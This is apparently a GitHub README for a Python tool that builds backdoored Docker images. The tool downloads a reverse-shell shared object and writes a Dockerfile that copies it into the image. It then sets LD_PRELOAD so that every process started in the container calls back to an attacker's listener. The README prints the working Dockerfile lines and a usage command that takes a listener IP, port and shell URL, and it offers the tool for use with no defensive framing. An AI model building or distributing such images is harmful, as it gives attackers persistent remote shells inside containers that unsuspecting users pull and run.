 # Tojanizedocker

# Docker Backdoor Image Creator

This Python script automates the process of creating a backdoored Docker image by downloading a specified reverse shell binary, embedding it into a Docker image, and setting up environment variables to facilitate a reverse shell connection.
[Dockerscan - Reverse shell](https://github.com/cr0hn/dockerscan/blob/590a844418038d25e6649e609ef630868e0c9161/dockerscan/actions/image/modifiers/shells/reverse_shell.so)

## How It Works

The script performs several key operations to create a backdoored Docker image:

1. **Download Reverse Shell Binary**: It downloads a reverse shell shared object file (`.so`) from a specified URL. This file is designed to establish a remote connection from the Docker container to an attacker-controlled server.

2. **Create Dockerfile**: The script dynamically generates a Dockerfile that incorporates the downloaded reverse shell. This Dockerfile instructs Docker to copy the reverse shell into the image and set it to be loaded before any other library by using the `LD_PRELOAD` environment variable.

## Understanding LD_PRELOAD and Reverse Shell Injection

- The Dockerfile created by this script contains the following critical lines:

```
COPY reverse_shell.so /usr/share/lib/reverse_shell.so
ENV LD_PRELOAD=/usr/share/lib/reverse_shell.so
```
## What Does This Do?

- `COPY reverse_shell.so /usr/share/lib/reverse_shell.so`: Command copies the reverse shell binary (reverse_shell.so - used in dockerscan) into a specific location inside the Docker image. 

- `ENV LD_PRELOAD`=/usr/share/lib/reverse_shell.so: By setting the LD_PRELOAD environment variable, it is intructed that the Linux dynamic linker to load our specified `reverse_shell.so` file before any other libraries when a program is run. This is a powerful method for modifying the behavior of compiled applications transparently.

- Use LD_PRELOAD leading to immediate code execution: Using `LD_PRELOAD` with a constructor attribute in the shared object allows executing custom code before the main application starts. This can be used for debugging, monitoring, or altering the application's normal operation without modifying the source code.

  
## Requirements

Before running the script, ensure that Docker is installed and running on your system. Python 3.x is also required.

## Installation

Install the required Python libraries with:

```
pip install -r requirements.txt
```

## Usage

```
python docker_backdoor.py -i <base-image> -o <output-image> -l <listener-ip> -p <listener-port> --shell-url <url-to-reverse-shell>
```

## Credits [Based On]

- **Backdooring Docker images - Reverse shell**: [Backdooring Docker images - Reverse shell](https://greencashew.dev/posts/backdooring-docker-images-reverse-shell/)
- **DockerScan GitHub Repository**: [Source for DockerScan, a tool for security analysis of Docker containers](https://github.com/cr0hn/dockerscan/)
- **LD_PRELOAD: How to Run Code at Load Time**: [LD_PRELOAD: How to Run Code at Load Time](https://www.secureideas.com/blog/2021/ldpreload-runcode.html)
- Thanks to #chatgpt
